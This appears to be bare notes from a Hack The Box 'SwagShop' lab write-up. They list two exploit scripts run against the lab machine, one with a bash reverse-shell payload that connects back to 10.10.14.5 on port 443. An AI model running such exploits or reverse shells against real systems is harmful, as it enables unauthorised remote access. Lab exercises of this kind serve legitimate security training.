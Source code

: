 # swagshopHTB

python 37977.py

python 37811.py http://10.10.10.140/index.php/admin "bash -c 'bash -i >& /dev/tcp/10.10.14.5/443 0>&1'"
